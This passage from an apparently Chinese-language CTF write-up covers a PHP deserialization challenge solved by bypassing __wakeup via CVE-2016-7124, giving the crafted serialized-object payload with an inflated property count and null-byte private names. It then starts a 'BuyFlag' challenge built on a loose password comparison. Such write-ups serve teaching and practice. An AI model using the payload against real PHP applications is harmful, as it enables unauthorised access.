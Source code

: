 ```php
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();     
        }
    }
}
?>
```

```php
// flag.php
<?php
	$flag = 'Syc{dog_dog_dog_dog}';
?>
```

很明显，是一道反序列的化的题目，难点在绕过`__wakeup`，利用`CVE-2016-7124`，属性的个数大于实际个数就能绕过，还有一个问题点，就是反序列化后的字符串，`private`属性是包括不可见字符的，所以在上传的时候，要加上去

### payload

```php
<?php
include class.php;

$name = new Name('admin',100);
echo serialize($name);

?>

// O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

## BuyFlag

> *2021/07/06*

### 题目

刚进去的首页没什么有用的信息，主要信息都藏在右上角的`MENU`按钮中的`PAYFLAG`中，页面提供了一些信息

- *FLAG NEED YOUR 100000000 MONEY*
- *You must be a student from CUIT!!!*
- *You must be answer the correct password!!!*

在向下审计，会发现一段代码

```php
<?php
//    ~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```
